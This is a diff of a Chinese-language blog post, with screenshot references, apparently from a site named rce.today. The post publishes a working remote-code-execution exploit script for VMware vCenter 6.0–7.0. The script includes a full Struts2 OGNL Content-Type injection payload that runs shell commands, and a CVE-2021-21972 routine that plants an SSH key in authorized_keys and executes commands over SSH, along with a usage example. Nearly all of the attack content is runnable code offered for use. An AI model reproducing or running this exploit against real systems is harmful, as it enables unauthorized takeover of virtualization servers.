

Before and after one commit to fazzzzzzz/rce.today, a Jekyll site: the page built from _posts/2021-02-24-vCenter-rce.md, in a window 1280 px wide and 1400 px high, scrolled down 1048 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2021-02-24-vCenter-rce.md

````diff
--- a/_posts/2021-02-24-vCenter-rce.md
+++ b/_posts/2021-02-24-vCenter-rce.md
@@ -7,9 +7,9 @@ tags: [vsphere, vcenter, vmware]
 ---
 
 # 开宗明义
-    通杀6.0-7.0版本
+    两个前台rce，通杀6.0-7.0版本。对于CVE-2021-21972，请自行生成公私钥填入脚本中。
 
-# exp
+# poc
 
 ```python
 import io
@@ -42,7 +43,7 @@ def create_tar(file_dict: dict) -> io.BytesIO:
     return t
 
 
-def exec_command(ip: str, shell: str):
+def exec_command(ip: str, shell: str) -> tuple:
     ssh: paramiko.SSHClient = paramiko.SSHClient()
     ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
     ssh.connect(
@@ -51,10 +52,7 @@ def exec_command(ip: str, shell: str):
         username='vsphere-ui',
         pkey=paramiko.RSAKey.from_private_key(file_obj=io.StringIO(pri))
     )
-    stdin, stdout, stderr = ssh.exec_command(shell)
-    print('[+] output:')
-    print(stdout.read().decode())
-    print(stderr.read().decode())
+    return ssh.exec_command(shell)
 
 
 def poc_6_5__7(url: str, shell: str) -> bool:
@@ -73,18 +71,32 @@ def poc_6_5__7(url: str, shell: str) -> bool:
         return False
     else:
         print()
-        print('[+] Create a public key in the target server: /home/vsphere-ui/.ssh/authorized_keys, Remember to delete!')
-        exec_command(url.split('/')[2], shell)
+        stdin, stdout, stderr = exec_command((ip := url.split('/')[2]), shell)
+        print('[+] output:')
+        print(stdout.read().decode())
+        print(stderr.read().decode())
+        exec_command(ip, 'rm /home/vsphere-ui/.ssh/authorized_keys')
         return True
 
 
 def poc_6_0(url: str, shell: str) -> bool:
     base_url: str = "/statsreport/"
     header: dict = {
-        "Content-Type": "%{(#xxx='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='",
+        "Content-Type": "%{(#xxx='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).("
+                        "#_memberAccess?(#_memberAccess=#dm):((#container=#context["
+                        "'com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance("
+                        "@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear("
+                        ")).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='",
     }
     header["Content-Type"] = header["Content-Type"] + shell
-    header["Content-Type"] = header["Content-Type"] + "').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
+    header["Content-Type"] = header["Content-Type"] + "').(#iswin=(@java.lang.System@getProperty(" \
+                                                      "'os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{" \
+                                                      "'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new " \
+                                                      "java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(" \
+                                                      "true)).(#process=#p.start()).(#ros=(" \
+                                                      "@org.apache.struts2.ServletActionContext@getResponse(" \
+                                                      ").getOutputStream())).(@org.apache.commons.io.IOUtils@copy(" \
+                                                      "#process.getInputStream(),#ros)).(#ros.flush())} "
     r: requests.Response = requests.get(url + base_url, headers=header, verify=False)
     if len(r.text) != 0 and r.status_code != 404:
         print()
@@ -112,7 +124,14 @@ if __name__ == '__main__':
         print()
     print()
     print('[-] no dong')
+
+```
+
+# 用法
+
+```shell
+> python3.9 vcenter_rce.py https://xxx.xxx.xxx.xxx whoami
 ```
 
 # TODO
-    咕咕咕，CVE-2021-21972本来想找个地方写jsp的，但是ssh公私钥也能凑合用，有时间再填坑。
+    对于CVE-2021-21972本来想找个地方写jsp的，但是没找到通杀位置。写ssh公私钥也能凑合用，有时间再填坑。咕咕咕...
````
Also changed, not shown: other parts of _posts/2021-02-24-vCenter-rce.md (+2 -1 lines).
